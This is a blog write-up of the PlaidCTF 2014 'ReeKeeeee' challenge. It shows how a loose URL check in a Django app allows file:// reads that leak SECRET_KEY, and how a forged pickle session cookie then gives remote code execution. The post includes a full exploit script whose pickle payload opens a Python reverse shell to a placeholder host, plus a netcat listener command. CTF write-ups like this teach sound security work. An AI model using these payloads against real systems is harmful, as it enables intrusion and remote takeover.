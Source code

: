 ```yaml
---
layout: post
title: "PlaidCTF 2014: ReeKeeeee"
date: 2014-04-14 06:46:01 +0000
permalink: /2014/04/14/plaidctf-2014-reekeeeee/
category: Security
tags: CTF,PlaidCTF,Security
---
```

ReeKeeeeee was, by far, the most visually painful challenge in the CTF, with a flashing rainbow background on every page.  Blocking scripts was clearly a win here.  Like many of the challenges this year, it turned out to require multiple exploitation steps.

ReeKeeeeee was a meme-generating service that allowed you to provide a URL to an image and text to overlay on the image.  Source code was provided, and it was worth noting that it's a Django app using the <code>django.contrib.sessions.serializers.PickleSerializer</code> serializer.  As the [documentation for the serializer](https://docs.djangoproject.com/en/1.5/topics/http/sessions/) notes, **If the SECRET_KEY is not kept secret and you are using the PickleSerializer, this can lead to arbitrary remote code execution.**  So, maybe, can we get the SECRET_KEY?

#### Getting SECRET_KEY ####
Here's the core of the meme-creation view in views.py:

    try:
      if "http://" in url:
        image = urllib2.urlopen(url)
      else:
        image = urllib2.urlopen("http://"+url)
    except:
      return HttpResponse("Error: couldn't get to that URL"+BACK)
    if int(image.headers["Content-Length"]) > 1024*1024:
      return HttpResponse("File too large")
    fn = get_next_file(username)
    print fn
    open(fn,"w").write(image.read())
    add_text(fn,imghdr.what(fn),text)


Looking at how images are loaded, they are sourced via <code>urllib2.urlopen</code>, then saved to a file, then PIL is used to add text to the image.  If the file is not a valid image type, an exception will be thrown during this phase.  However, **the original file downloaded remains on disk.**  This means we can use the download to source any file and get a copy of it, even though it will be served with the bizarre mimetype image/None.

At first, it appears that only http:// urls are permitted, so we considered that we might be able to source some URL from localhost that might provide us with the application configuration, but we couldn't find any such URL.  I tried building a webserver that sends a redirect to a file:// url, but the Python developers are wise to that.  Then I noticed that it says <code>"http://" in url</code>, which means that it only needs to *contain* http://, but doesn't have to start with that protocol.  So, I began playing around with options to try to use a file:// url, but containing http://.  My first thought was as a username, with something like <code>file://http://@/etc/passwd</code> or <code>file://http://@localhost/etc/passwd</code>, but neither of those worked.  I also tried a query-string like path, with <code>file:///etc/passwd?http://</code>, but that's also just considered part of the filename.  Finally, my teammate Taylor noticed that this construct seems to work: <code>file:///etc/passwd#http://</code>.

Now we needed to find the SECRET_KEY.  Even though we dumped <code>/etc/passwd</code>, and could see users and home directories, we couldn't find settings.py.  It took a few minutes to realize that we could find the directory we were running from by <code>/proc/self/cwd</code>, and based on the provided source, the file was probably at <code>mymeme/settings.py</code>.  Trying <code>file:///proc/self/cwd/mymeme/settings.py#http://</code> for the image URL finally gave us a usable copy of settings.py.

#### SECRET_KEY to flag ####
Given the SECRET_KEY, we can now construct our own session tokens.  Since we're using the pickle session module, we can produce sessions that give us code execution via pickling.  Objects can implement a custom <code>__reduce_\_</code> method that defines how they are to be pickled, and they will be unpickled by calling the relevant "constructor function."  For a general primer on exploiting Python pickling, see [Nelson Elhage's blog post](https://blog.nelhage.com/2011/03/exploiting-pickle/). 

I decide the easiest way to exploit code execution is to use a reverse shell on the box, which can be launched via subprocess.popen.  Since we know python is on the system, but can't be sure of any other tools, I decide to use a python reverse shell.  Here's the script I wrote to construct a new session cookie:

    #!python
    import os
    import subprocess
    import pickle
    from django.core import signing
    from django.contrib.sessions.serializers import PickleSerializer
    
    os.environ.setdefault("DJANGO_SETTINGS_MODULE", "mymeme.settings")
    
    class Exploit(object):
      def __reduce__(self):
        return (subprocess.Popen, (
          ("""python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("xxx.myvps.xxx",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &"""),
          0, # Bufsize
          None, # exec
          None, #stdin
          None, #stdout
          None, #stderr
          None, #preexec
          False, #close_fds
          True, # shell
          ))
    
    #pickle.loads(pickle.dumps(Exploit()))
    
    print signing.dumps(Exploit(),
        salt='django.contrib.sessions.backends.signed_cookies',
        serializer=PickleSerializer,
        compress=True)

Running this gives us our new cookie value.  Before I load a page with the cookie, I start a netcat listener with <code>nc -l -p 1234</code> for the shell to connect to.  When I load the page, I see my listener get a connection, and I have a remote shell.  Moving up a directory, I find an executable named something like <code>run_this_for_flag.exe</code> and I run it to get the flag.

#### Conclusion ####
Took an information disclosure + remote code execution via pickle, but just goes to show you how easy it is to escalate a bad use of urlopen to a remote shell.  In fact, had it said <code>url.startswith('http://')</code> instead of <code>'http://' in url</code>, everything would've stopped there.  Small vulnerabilities can lead to big problems.
